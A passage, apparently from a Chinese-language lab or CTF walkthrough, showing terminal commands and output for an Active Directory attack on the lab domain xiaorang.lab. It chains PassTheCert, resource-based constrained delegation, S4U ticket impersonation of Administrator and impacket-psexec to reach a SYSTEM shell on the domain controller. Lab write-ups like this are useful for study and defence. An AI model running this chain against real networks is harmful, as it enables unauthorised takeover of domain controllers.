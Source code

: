 然后执行攻击

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q python3 ./tools/PassTheCert/Python/passthecert.py -action whoami -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] You are logged in as: XIAORANG\XR-DC01$
```

可以成功登录，尝试 RBCD

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q python3 ./tools/PassTheCert/Python/passthecert.py -action write_rbcd -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13 -delegate-to 'XR-DC01$' -delegate-from 'randark2'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] randark2$ can now impersonate users on XR-DC01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     randark2$    (S-1-5-21-3745972894-1678056601-2622918667-1148)
```

申请 TGT 票据

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-getST xiaorang.lab/'randark2$':'admin123###2' -dc-ip 172.22.15.13  -spn cifs/XR-DC01.xiaorang.lab -impersonate Administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_XR-DC01.xiaorang.lab@XIAORANG.LAB.ccache
```

得到票据之后，就可以直接拿到 shell

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-psexec Administrator@XR-DC01.xiaorang.lab -k -no-pass -dc-ip 172.22.15.13 -codec gbk
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on XR-DC01.xiaorang.lab.....
[*] Found writable share ADMIN$
[*] Uploading file nZUluhoI.exe
[*] Opening SVCManager on XR-DC01.xiaorang.lab.....
[*] Creating service Xvjs on XR-DC01.xiaorang.lab.....
[*] Starting service Xvjs.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.14393]
(c) 2016 Microsoft Corporation。保留所有权利。

C:\windows\system32> whoami
nt authority\system
```
